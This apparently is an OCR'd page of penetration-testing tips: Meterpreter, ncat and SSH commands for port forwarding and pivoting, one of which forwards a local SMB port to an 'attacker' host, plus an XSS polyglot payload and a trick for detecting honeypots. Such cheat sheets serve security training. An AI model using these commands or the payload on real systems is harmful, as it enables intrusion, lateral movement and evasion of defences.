 **Meterpreter** 
@metasploit
meterpreter > portfwd add -l 80 -r 172.16.0.0 -p 80

**Ncat Port Forwarder**
mknod pivot p
nc -l -p < port to listen on> 0<pivot | nc 1>pivot

**Remote port forwarding**
ssh -N -R 10.10.1.1:4455:127.0.0.1:445 attacker@10.10.1.1
**Socks5 with SSH**
ssh -N -D 127.0.0.1:8888 admin@10.1.1.1

**SSH Dynamic Port Forwarding**
ssh -N -D 127.0.0.1:1337 user@remotehost -p 8888

**Ncat Http Proxy**
ncat -vv --listen 3128 --proxy-type http

**SSH graphical connection (X)**
ssh -Y -C <user>@<ip> 
-Y is less secure but faster than -X

## XSS polyglot (@JacksonHHax)

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Finding if it's a honeypot (@_mattata)

Can't figure out if it's a honeypot or not?
Max out the URI length!
If it still returns a non-4xx error code, it's probably not a service operating at L7 ;)
![twitter_tips_07](images/twitter_tips_07.png)
